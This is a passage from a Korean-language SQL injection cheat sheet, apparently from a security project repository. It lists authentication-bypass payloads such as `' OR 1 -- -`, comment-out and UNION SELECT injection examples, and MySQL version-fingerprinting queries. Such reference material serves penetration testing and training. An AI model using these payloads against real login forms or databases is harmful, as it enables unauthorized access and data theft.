 예 :<br>
`SELECT * FROM Users WHERE id = 3-2;`<br><br>

노트 :<br>
참은 1 과 같음.<br>
거짓은 0 과 같음.<br><br>

**③ 로그인**<br><br>

주어진 쿼리 `SELECT * FROM Table WHERE username = '';`<br><br>

`' OR '1`<br>
`' OR 1 -- -`<br>
`" OR "" = "`<br>
`" OR 1 = 1 -- -`<br>
`'='`<br>
`'LIKE'`<br>
`'=0--+`<br><br>

예 :<br>
`SELECT * FROM Users WHERE username = 'Mike' AND password = '' OR '' = '';`<br><br><br>



## (3) 코멘트 아웃 쿼리(Comment Out Query)

여기서 코멘트 아웃(Comment Out)이란 디버그에서 자주 사용되는 방법으로 코멘트를 지시하는 문을 삽입하여 프로그램이나 명령어 집합의 일부를 일시적으로 사용하지 않는 것을 말함.

![스크린샷 2024-04-17 오후 2 05 54](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/930f2e11-de95-4438-b734-4ca289aac282)<br><br>


예 :<br>
`SELECT * FROM Users WHERE username = '' OR 1=1 -- -' AND password = '';<br>
SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3`';`<br><br>

노트 :<br>
별칭으로 사용할 때 Backtick 연산자(`)는 쿼리를 종료할 때만 사용할 수 있음.<br><br><br>



## (4) 버전 테스팅

**① 변수**<br><br>

`VERSION()<br>
@@VERSION<br>
@@GLOBAL.VERSION`<br><br>

예 :<br>
`SELECT * FROM Users WHERE id = '1' AND MID(VERSION(),1,1) = '5';`<br><br>

노트 :<br>
DBMS 가 윈도우 기반 시스템에서 실행되는 경우 결과값에는 -nt-log 가 포함됨.<br>
@@GLOBAL 는 글로벌 변수를 의미하며 글로벌 변수 지정은 슈퍼 권한이 있어야 함.<br><br>

**② 특정 코드**<br><br>
